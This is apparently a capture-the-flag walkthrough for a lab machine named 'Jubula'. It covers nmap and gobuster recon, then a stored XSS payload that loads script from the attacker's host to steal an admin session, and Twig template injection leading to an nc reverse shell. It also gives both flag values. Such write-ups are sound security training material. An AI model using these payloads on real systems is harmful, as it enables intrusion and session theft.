# **Jubula**

---
## **LOCAL.TXT**

## **Run Nmap to see running services**
```
sudo nmap -O -Pn 192.168.236.121
```
 

## **Run Gobuster for directory/file enumeration**
```
gobuster dir -u 192.168.236.121 -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
This gives /admin endpoint.

 

- In order to find more hidden directories for this PHP application, use raft-mediumm-files.txt.

```
gobuster dir -u 192.168.236.121 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
```
 

### **Inject XSS payloads into the comment submission feature to hijack the admin’s session**

- Create a xss.js file on kali machine and host it.
```
document.write('');
```
- Start the HTTP server.
```
python3 -m http.server 80
```

Payload:
```
<script src="http://192.168.45.226:80/xss.js"></script>
```

 

- Once you saved the post, wait for sometime, monitor the logs in our kali machine, when the admin user visits this page, his session id will be sent to our kali machine.

- Grab the session id and update in GET /admin/index.php request. Then you can find the local.txt flag here.

 

 

### local.txt flag:  c05de0839bf239f41e2a9a7d574422bc

---

## **PROOF.TXT**

- Try for template injection (Twig) in Blog post comment field from admin cookie.
- As you can see `{{[0]|reduce('system', 'id')}}` was executed successfully and the content printed in 'Manage Posts' web page.

 

 

- Now try to see what binaries are installed in this vulnerable machine.

```
{{[0]|reduce('system', 'which python3  which python  which perl  which nc  which busybox || which bash')}}
```

 


- Since netcat is installed in the vulnerable machine, now we can try the reverse shell.

Payload:
```
{{[0]|reduce('system','nc 192.168.45.226 443 -e /bin/bash')}} 
```



- Once we get reverse shell, we can use below command to serach the location of proof.txt flag and then we can read it.

```
find / -type f -name "proof.txt" 2>/dev/null
```

 

### proof.txt flag: 622ae4c441959ece2a5c5aacd2afbef0 

NOTE: This machine gives very slow response. So the revese shell may take sometime to reflect.

